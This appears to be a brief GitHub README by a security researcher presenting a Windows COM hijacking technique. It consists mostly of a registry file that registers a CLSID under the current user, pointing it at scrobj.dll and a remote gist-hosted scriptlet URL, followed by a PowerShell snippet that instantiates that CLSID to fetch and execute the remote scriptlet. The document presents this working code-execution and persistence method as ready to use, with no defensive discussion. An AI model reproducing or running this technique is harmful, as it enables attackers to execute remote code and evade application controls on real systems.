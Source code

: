 
Synopsis: This method grants you the right to access and the execute via Activator.System .NET to connection with Scriptlet through a CLSID

![131231](https://user-images.githubusercontent.com/25440152/48066324-f0db7d00-e1d5-11e8-8bb6-efa03b4c4a7c.PNG)

![312313123123131](https://user-images.githubusercontent.com/25440152/48066255-c25da200-e1d5-11e8-9ad5-6129775e5646.PNG)

```
Windows Registry Editor Version 5.00

[HKEY_CURRENT_USER\Software\Classes\CLSID\{00020000-0000-0000-C000-000000000046}]
@="Bandit"

[HKEY_CURRENT_USER\Software\Classes\CLSID\{00020000-0000-0000-C000-000000000046}\InprocServer32]
@="C:\\WINDOWS\\system32\\scrobj.dll"
"ThreadingModel"="Apartment"

[HKEY_CURRENT_USER\Software\Classes\CLSID\{00020000-0000-0000-C000-000000000046}\ProgID]
@="Bandit"

[HKEY_CURRENT_USER\Software\Classes\CLSID\{00020000-0000-0000-C000-000000000046}\ScriptletURL]
@="https://gist.githubusercontent.com/homjxi0e/3e4488789a6b9222e445a68d29962518/raw/a167f0f680b446be17fa6a898b865b0056dfb072/COMobj.sct"

[HKEY_CURRENT_USER\Software\Classes\CLSID\{00020000-0000-0000-C000-000000000046}\VersionIndependentProgID]
@="Bandit"

```
```
$1=[Activator]::CreateInstance([type]::GetTypeFromCLSID("{00020000-0000-0000-C000-000000000046}"));
$1.Exec();
```


### Author Matt harr0ey 

* [Matt harr0ey](https://twitter.com/harr0ey)
